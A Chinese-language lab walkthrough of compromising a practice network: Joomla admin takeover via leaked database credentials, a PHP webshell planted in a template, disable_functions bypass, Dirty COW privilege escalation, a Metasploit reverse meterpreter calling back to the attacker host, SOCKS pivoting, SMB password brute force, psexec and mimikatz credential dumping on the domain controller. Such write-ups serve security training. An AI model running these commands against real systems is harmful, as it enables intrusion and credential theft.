

实战 ｜ 记一次靶场实战绕过Nginx反向代理
前言
本环境为黑盒测试，在不提供虚拟机帐号密码的情况下进行黑盒测试拿到域控里面的flag。
环境搭建
内网网段：192.168.93.0/24
外网网段：192.168.1.0/24
攻击机：
kali：192.168.1.10
靶场：
CentOS(内)：192.168.93.100
CentOS(外)：192.168.1.110
Ubuntu：192.168.93.120
域内主机：
Winserver2012：192.168.93.10
Winserver2008：192.168.93.20
Windows7：192.168.93.30
其中CentOS可以外网、内网通信，域内主机只能内网之间进行通信
kali跟CentOS能够ping通

拓扑图如下：

内网信息搜集
nmap探测端口
nmap先探测一下出网机即CentOS的端口情况。可以看到开了22、80、3306端口，初步判断开了web，ssh，数据库应该为MySQL
nmap -T4 -sC -sV 192.168.1.110
这里首先访问下80端口，发现为joomla框架，joomla框架在3.4.6及以下版本是有一个远程rce漏洞的，这里先使用exp直接去打一下

这里看到exp打过去不能够利用那么应该是joomla的版本比较高

这里使用端口扫描软件扫一下后台的文件发现一个管理员的界面

是joomla的后台登录界面，这里尝试使用bp弱口令爆破了一下，无果，只好放弃

这里使用dirsearch进一步进行扫描，发现了一个configuration.php

看一下这个php的内容发现有一个user跟password，联想到开了3306这个端口，猜测这可能是管理员备份的数据库密码忘记删除了

连接mysql
这里使用navicat尝试连接一下靶机的数据库

可以看到连接成功了

然后就是翻数据找管理员的帐号了，找管理员帐号肯定是找带有user字段跟password字段的，这里我找了一段时间，最后发现umnbt_users这个表跟管理员帐号最相似，但是这里出现了一个问题，我发现password这个地方的密码不是明文

这里试着把密文拿去解密发现解密失败

在搜索的时候发现joomla官网虽然没有直接公布密码的加密方式，但是它为了防止用户忘记密码增加了一个添加超级管理员用户的方式，就是通过登录数据库执行sql语句达到新建超级管理员的效果

这里我们可以发现sql语句中的VALUES中的第三项为密文，这里我们为了方便就是用他给我们的这一串密文，这里对应的密码为secret，当然也可以用其他对应的密文如下所示

在navicat中执行sql语句，注意这里要分开执行两个INSERT INTO否则会报错，这里相当于我们添加了一个admin2 secret这个新的超级管理员用户

登录joomla后台
使用admin2 secret登录joomla后台

登录成功，进入后台后的操作一般都是找可以上传文件的地方上传图片马或者找一个能够写入sql语句的地方

这里经过谷歌后发现，joomla的后台有一个模板的编辑处可以写入文件，这里找到Extensions->Template->Templates

这里选择Beez3这个模板进入编辑

这里因为模板前面有<?php前缀，所以这里我们需要将一句话木马稍微变形一下，然后保存即可

这里使用蚁剑连接成功


绕过disable_functions
但是这里命令执行返回的是127，应该是disable_functions禁用了命令执行的函数，在windows下绕过disable_functions的方法虽然很少，但是在linux里面绕过disable_functions的方法却有很多，这里就不展开说了

这里为了方便我直接使用的是蚁剑里自带的插件绕过disable_functions，可以看到已经上传脚本操作成功了

这里我直接去连接上传的这个.antproxy.php，这里理论上是应该用原来的密码连接过去就可以执行命令了，但是这和地方不知道为什么返回数据为空我淦！

这里只好用最原始的方法，上传一个绕过disable_functions的py，通过传参的方式执行系统命令

测试一下传参为whoami，可以看到这里是一个低权限www-data

ifconfig看一下网卡情况，这里很奇怪，因为之前我们在扫描的时候这台CentOS的ip应该是192.168.1.0/24这个网段的，但是这里ifconfig出来却是192.168.53.0/24这个网段，当时说实话有点懵

arp -a查看下路由表，可以看到都是192.168.93.0/24这个网段

再看一下端口的进出，发现都是93这个网段

interfaces中配置的静态网卡也是93这个网段

Nginx反向代理
那么到这里已经很明显了，也就是说我们之前拿到的那台linux的192.168.1.0/24这个网段相当于一个公网IP，但是真正的主机应该是192.168.93.0/24，但这个是一个内网网段，所以说最符合这种情况的就是nginx反向代理
因为之前nginx反代的情况基本没遇到过，所以这里顺带补充一下自己的盲区
何为代理
在Java设计模式中，代理模式是这样定义的：给某个对象提供一个代理对象，并由代理对象控制原对象的引用。
可能大家不太明白这句话，在举一个现实生活中的例子：比如我们要买一间二手房，虽然我们可以自己去找房源，但是这太花费时间精力了，而且房屋质量检测以及房屋过户等一系列手续也都得我们去办，再说现在这个社会，等我们找到房源，说不定房子都已经涨价了，那么怎么办呢？最简单快捷的方法就是找二手房中介公司（为什么？别人那里房源多啊），于是我们就委托中介公司来给我找合适的房子，以及后续的质量检测过户等操作，我们只需要选好自己想要的房子，然后交钱就行了。
代理简单来说，就是如果我们想做什么，但又不想直接去做，那么这时候就找另外一个人帮我们去做。那么这个例子里面的中介公司就是给我们做代理服务的，我们委托中介公司帮我们找房子。
何为反向代理
反向代理和正向代理的区别就是：正向代理代理客户端，反向代理代理服务器。
反向代理，其实客户端对代理是无感知的，因为客户端不需要任何配置就可以访问，我们只需要将请求发送到反向代理服务器，由反向代理服务器去选择目标服务器获取数据后，在返回给客户端，此时反向代理服务器和目标服务器对外就是一个服务器，暴露的是代理服务器地址，隐藏了真实服务器IP地址。
反向代理的好处
那么为什么要用到反向代理呢，原因有以下几点：
1、保护了真实的web服务器，web服务器对外不可见，外网只能看到反向代理服务器，而反向代理服务器上并没有真实数据，因此，保证了web服务器的资源安全
2、反向代理为基础产生了动静资源分离以及负载均衡的方式，减轻web服务器的负担，加速了对网站访问速度（动静资源分离和负载均衡会以后说）
3、节约了有限的IP地址资源，企业内所有的网站共享一个在internet中注册的IP地址，这些服务器分配私有地址，采用虚拟主机的方式对外提供服务
了解了反向代理之后，我们再具体的去探究一下Nginx反向代理的实现
1、模拟n个http服务器作为目标主机用作测试，简单的使用2个tomcat实例模拟两台http服务器，分别将tomcat的端口改为8081和8082
2、配置IP域名
192.168.72.49 8081.max.com192.168.72.49 8082.max.com
3、配置nginx.conf
upstream tomcatserver1 {server 192.168.72.49:8081;}upstream tomcatserver2 {server 192.168.72.49:8082;}server {listen 80;server_name 8081.max.com;#charset koi8-r;#access_log logs/host.access.log main;location / {proxy_pass http://tomcatserver1;index index.html index.htm;}}server {listen 80;server_name 8082.max.com;#charset koi8-r;#access_log logs/host.access.log main;location / {proxy_pass http://tomcatserver2;index index.html index.htm;}}
流程：1）浏览器访问8081.max.com，通过本地host文件域名解析，找到192.168.72.49服务器（安装nginx） 2）nginx反向代理接受客户机请求，找到server_name为8081.max.com的server节点，根据proxy_pass对应的http路径，将请求转发到upstream tomcatserver1上，即端口号为8081的tomcat服务器。
那么这里很明显还有一台linux主机在整个拓扑内做为内网Ubuntu的反向代理主机，这时候我翻缓存文件夹的时候发现了一个mysql文件夹，跟进去看看

发现了一个test.txt，不会又是管理员忘记删了的账号密码吧(手动狗头)

因为之前我们扫端口的时候发现开了22端口，那么这个账号密码很可能就是ssh的帐号密码

使用ssh连接尝试

连接成功到了另外一台linux主机

看一下主机和ip情况，可以发现这台主机已经不是我们之前的那台Ubuntu了，而是CentOS，而且双网卡，一张网卡是我们之前扫描时候得出的1.0/24这个网段的ip，还有一个ip就是93.0/24这个内网网段的ip，那么这台linux主机就是Ubuntu的反向代理主机无疑了

脏牛提权
这里直接选择linux提权首选的脏牛进行提权
gcc -pthread dirty.c -o dirty -lcrypt //编译dirty.c./dirty 123456 //创建一个高权限用户，密码为123456
可以看到这里已经执行成功，脏牛执行成功过后会自动生成一个名为firefart的高权限用户，密码就是我们刚才设置的123456

这里我们切换到firefart用户进行查看

内网渗透
centos上线msf
这里因为是linux的原因，就不使用cs上线的打法了，先生成一个linux的payload上线到msf
use exploit/multi/script/web_deliveryset lhost 192.168.1.10set lport 4444set target 7run
运行之后会给出一个payload
use exploit/multi/script/web_deliveryset target 7set payload linux/x64/meterpreter/reverse_tcpset lhost 192.168.1.10set lport 4444exploit

将payload复制到centos执行

可以看到反弹session已经成功

socks代理进入内网扫描
这里使用添加路由、使用socks_proxy模块进入内网
route add 192.168.93.0 255.255.255.0 1route printuse auxiliary/server/socks_proxyset version 4arun
然后在/etc/proxychain.conf文件中添加代理的ip和端口，这里一定要和设置里的对应

这里可以使用proxychain + nmap进行扫描，这里为了方便我就直接使用msf中的模块对192.168.93.0/24这个网段进行扫描了。注意这里在实战的时候可以适当把线程调小一点，不然流量会很大，这里因为是靶场的原因我就直接调成了20
use auxiliary/scanner/discovery/udp_probeset rhosts 192.168.93.1-255set threads 20run
这里扫描完之后可以发现，内网里有3台主机存活，分别是192.168.93.10 192.168.93.20 192.168.93.30

但是这时候信息还不够，调用nmap继续扫描详细信息
nmap -T4 -sC -sV 192.168.93.10 192.168.93.20 192.168.93.30首先是10这台主机，可以看到开放了88跟389这两个端口，熟悉的师傅都应该知道这两个端口大概率锁定了这台主机就是域控

20这台主机开的都是几个常规端口，值得注意的就是1433端口，意味着20这台主机上有mssql服务
30这台主机也是开了几个常规端口，跟前面两台主机相比就没什么特征端口，应该是一个普通的域成员主机

永恒之蓝尝试
这里我发现三台主机都开了139、445端口，那么先使用永恒之蓝模块先批量扫描一波看有没有可以直接用永恒之蓝打下来的主机
这里没有能够直接用永恒之蓝拿下的主机，win7跟2008匿名管道都没有开所以利用不了

密码枚举
因为这三台主机都开了445端口，可以使用smb，使用msf中的smb_login模块进行密码枚举尝试
use auxiliary/scanner/smb/smb_loginset rhosts 192.168.93.20set SMBUser Administratorset PASS_FILE /tmp/1W.txtrun
这里很幸运，跑出来的密码是123qwe!ASD刚好在我的1W.txt这个字典里面

psexec横向移动
这里使用proxifier将msf的socks代理到本地，忘记截图了orz...
这里既然已经拿到了administrator的密码，使用ipc先连接到20这一台主机，使用copy命令将mimikatz拷贝到20这台主机上

然后使用psexec获取一个cmd环境，使用mimikatz抓取hash并保存为日志
psexec64.exe \\192.168.93.20 cmdmimiKatz.exe log privilege::debug sekurlsa::logonpasswords

type mimikatz.log读取日志内容可以发现域管的帐号密码为Administrator zxcASDqw123!!

那么这里也直接使用ipc连接直接连接10这台主机，即TEST这个域的域控，可以看到已经连接成功了

使用命令查看机密文件
dir \\192.168.93.10\C$\users\Administrator\Documentstype \\192.168.93.10\C$\users\Administrator\Documents\flag.txt


推荐阅读：
文章中靶机下载地址
公众号后台回复数字：0728
即可获得靶机下载地址
本月报名可以参加抽奖送Kali NetHunter手机的优惠活动

点赞，转发，在看
原创投稿作者：zanthoxylum